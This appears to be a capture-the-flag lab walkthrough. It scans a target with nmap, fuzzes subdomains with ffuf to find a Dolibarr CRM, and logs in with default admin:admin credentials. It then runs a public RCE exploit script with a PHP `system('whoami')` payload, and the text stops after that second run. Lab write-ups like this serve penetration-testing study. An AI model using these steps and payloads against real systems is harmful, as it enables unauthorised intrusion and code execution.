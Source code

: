 # 0x1 Initial Reconnaissance

Start by scanning the machine with `nmap`:

```
nmap -sV -p- 10.129.35.16
```

Nmap Results:

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
```

From the `nmap` scan, we know that SSH and HTTP services are running. The web service on port 80 is usually a good starting point.

# 0x2 port 80

Visit the website on `http://10.129.35.16` and analyze its content. Use `ffuf` to find subdomains:

```
ffuf -u "http://10.129.35.16" -H "Host: FUZZ.board.htb" -w /path/to/wordlist.txt
```

FFUF Results:

```
[Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 205ms]
* FUZZ: crm
```

The subdomain `crm.board.htb` was discovered, and it appears to be running Dolibarr.

# 0x3 Exploiting Dolibarr

Attempt to log in with default credentials `admin:admin`, which is successful.

Next, search for vulnerabilities specific to Dolibarr 17.0.0. A suitable exploit is found that allows Remote Code Execution (RCE): https://starlabs.sg/advisories/23/23-4197/

```
python3 exp.py http://crm.board.htb/ admin admin whoami
```

Initially, this did not work. Modify the payload in the script to use PHP tags:

```
<?php echo system('whoami'); ?>
```

Run the exploit again:

```
python3 exp.py http://crm.board.htb/ admin admin whoami
```

